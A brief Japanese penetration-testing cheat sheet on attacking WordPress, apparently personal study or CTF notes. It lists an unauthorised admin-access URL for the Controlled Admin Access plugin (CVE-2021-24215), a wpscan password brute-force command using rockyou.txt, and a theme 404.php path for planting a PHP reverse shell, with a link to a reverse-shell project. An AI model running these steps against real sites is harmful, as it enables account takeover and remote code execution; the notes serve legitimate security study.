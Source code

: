 # WordPress

core、pluginどちらかの脆弱性となる。両軸で脆弱性の調査をするとよい

### Controlled-admin-access-plugin(CVE-2021-24215)

https://blog.nintechnet.com/vulnerabilities-fixed-in-wordpress-controlled-admin-access-plugin/

```
http://management_portal/wordpress/wp-admin/admin.php?page=%2Fcontrolled_admin_access
```

上記のようなURLでユーザ登録画面にアクセスができる。

### Wpscan

hosts設定をできれば事前にした方がいい

* パスワードリスト攻撃

```
sudo wpscan --url http://management_portal:80/wordpress/ -U access -P /usr/share/wordlists/rockyou.txt
```



#### Themeでのリバースシェル

URL形式

```
http://management_portal/wordpress/wp-content/themes/twentytwenty/404.php
```

リバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい

